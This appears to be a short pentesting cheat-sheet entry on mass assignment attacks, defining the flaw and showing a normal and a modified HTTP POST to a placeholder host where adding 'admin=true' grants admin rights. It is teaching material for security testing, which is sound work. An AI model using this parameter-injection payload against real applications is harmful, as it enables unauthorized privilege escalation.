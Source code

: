 # Mass Assignment Attack

## Introduction
Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to exploit
- Normal request
```
POST /editdata
Host: vuln.com

username=daffa
```
```
HTTP/1.1 200 OK
...

username=daffa&admin=false
```

- Modified Request 
```
POST /editdata
Host: vuln.com

username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...

username=daffa&admin=true
```